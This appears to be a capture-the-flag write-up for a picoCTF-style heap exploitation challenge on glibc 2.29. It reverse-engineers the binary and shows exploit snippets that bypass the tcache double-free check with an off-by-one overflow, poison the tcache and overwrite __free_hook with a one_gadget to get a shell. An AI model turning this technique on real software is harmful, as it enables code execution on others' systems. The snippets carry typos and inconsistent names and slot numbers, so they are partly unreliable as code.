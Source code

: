 # zero_to_hero 500 points - (pnw, pico, heap exploitation, glibc 2.29, off-by-one, tcache, __free_hook)



### Notes
- I haven't solved this challenge during the competition time, but I haven't even had time to try
- binary given
- glibc 2.29

## Enumeration
As we have no source code we have to start with reverse engineering part. Using Ghidra we can quicly obtain some pseudo code:

```c
// Simplified!

char *slots[6];

void allocate_slot() {
    size_t idx = 0;
    while (idx < 6 && slots[idx])) ++idx;
    if (idx == 6) return;

    size_t size;
    scanf("%d", &size);
    if (size > 0x408) return;

    char* new_slot = malloc(size);
    bytes_read = read(0, new_slot, size);
    new_slot[bytes_read] = 0;

    slots[idx] = new_slot;
}

void remote_slot() {
    size_t idx = getchar();
    id (idx < 6) free(slots[idx]);
}

int main() {
    printf("%p", system);
    while (1) {
        cmd = getchar();
        switch (cmd) {
            case 0:
                allocate_slot();
                break;

            case 1:
                remove_slot();
                break;

            default:
                exit();
        }
    }
}
```

So the code allows us to allocate a slot of max. size 0x408 and to free a slot of our choice.

### Vulnerabilities
We can quicly spot three obvious vulnerabilities.

Libc leak (it was a giveaway). This let's us calculate the `libc_base` address.

```c
printf("%p", system);
```


Double free:

```c
void remote_slot() {
    size_t idx = getchar();
    id (idx < 6) free(slots[idx]);
}
```

Heap-overflow:

```c
void allocate_slot() {
    [...]
    bytes_read = read(0, new_slot, size);
    new_slot[bytes_read] = 0; // overflow by one byte
    [...]
}
```

### Protections
Now let's check what protections we need to bypass:

```gdb
$ checksec zero_to_hero
[*] './zero_to_hero'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
```



## Exploit
We have double free, almost no size constraints, heap-overflow by one byte and libc base address!!! Seems super easy! We just need a way to gain control over instruction pointer and call one_gadget.

### Tcache dup?
Can we just gain UAF using [tcache dup](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_dup.c)?

```python
allocate_slot(0x140) # slot 0, chunk 0
remove_slot(0) # Tchunk 0x140 ---> chunk 0
remove_slot(0) # Tchunk 0x140 ----> chunk 0 -----> chunk 0
allocate_slot(0x140) # returns chunk 0, so we can now poison Tchunk 0x140 list 
```

The answer is NO. Unfortunetely for us, glibc-2.29 introducted `key` atribute to detect double frees.

```c
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
```

When a chunk is being freed the glibc checks if the chunk already is in tcache. If it is it errors.

```c
// Simplified!

free() {
    [...]
    if (e-key == tcache) {
        malloc_printerr ("free(): double free detected in tcache 2"); 
    }
    [...]
    /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
    e->key = tcache;
    [...]
}

malloc() {
    [...]
    e->key = NULL;
    [...]
}
```

### Fastbin dup
Ok, so we do know we will have a hard time using tcache because of this double free protection. But can we just fill the tcache and then perform a [fastbin dup](https://github.com/shellphish/how2heap/blob/master/fastbin_dup.c)?
Again, the answer if NO, as we have slot limit set to 6 while the tcache buffers are of default size 7.

```c
/* This is another arbitrary limit, which tunables can change.  Each
   tcache bin will hold at most this number of chunks.  */
# define TCACHE_FILL_COUNT 7
```

Moreover we can only allocate `tcache chunks` as every chunk of size <= 0x410 will be placed in tcache.

### Back to Tcache dup
Before when we tried to duplicate tchunks we haven't used a off-by-one vulnerability. Let's see how can we combine double free with off-by-one to duplicate the tchache chunks!

```python
# We will need two chunks. We will duplicate chunk 1 and use chunk 0 to overwrite chunk's 1 size header. Start will allocating and freeing them.
allocate_slot(0x140, b'') # slot 0, chunk 0
allocate_slot(0x140, b'') # slot 1, chunk 1

remove_slot(1)
remove_slot(0)

# Bins:
# TC 0x140 ---> chunk 0 ---> chunk 1
allocate_slot(0x140, b'A' * 0x140) # slot 3, chunk 0
# When allocating we can set a content which will overflow the chunk 0 size header. The 0x140 will become 0x100, meaning that when freeing chunk 1 again, it will land in tchace 0x100 list and bypass security check.
free_slot(1)

# Bins:
# TC 0x140 ---> chunk 1
# TC 0x100 ---> chunk 1
```

Now we can just [poison the tcache](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c). We will overwrite `__free_hook` with address of our one shot gadget.

```python
# Let's poison 0x100 tcache list by overwriting fd pointer of new slot with &__free_hook address
free_hook_addr = libc_base + FREE_HOOK_OFFSET
allocate_slot(0x140, p64(free_hook_addr)) # slot 4, chunk 1

# Bins:
# TC 0x100 ---> chunk 1 ---> &__free_hook
allocate_slot(0x100, p64(free_hook_addr)) # slot 5, chunk 1

# Bins:
# TC 0x100 ---> &__free_hook
one_gadget_addr = libc_base + 0xe2383
allocate_slot(0x100, p64(one_gadget_addr))
```

Bum, that's all! We have a shell.


## Notes
Having a custom glibc version we can write a test programs by compiling the program with -Wl flags.

```bash
$ ls
$ test.c ld-2.29.so libc.so.6
$ gcc test.c -o test -Wl,-rpath . -Wl,-dynamic-linker,./ld-2.29.so
$ ls
$ test.c test
$ checksec test
[*] './test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
$ ldd test
ldd test
	linux-vdso.so.1 (0x00007ffda41b2000)
	libc.so.6 => ./libc.so.6 (0x00007fbe68b41000)
	./ld-2.29.so => /lib64/ld-linux-x86-64.so.2 (0x00007fbe68b07000)
```

The gdb etc. will work fine with this, no need to set any env variables.
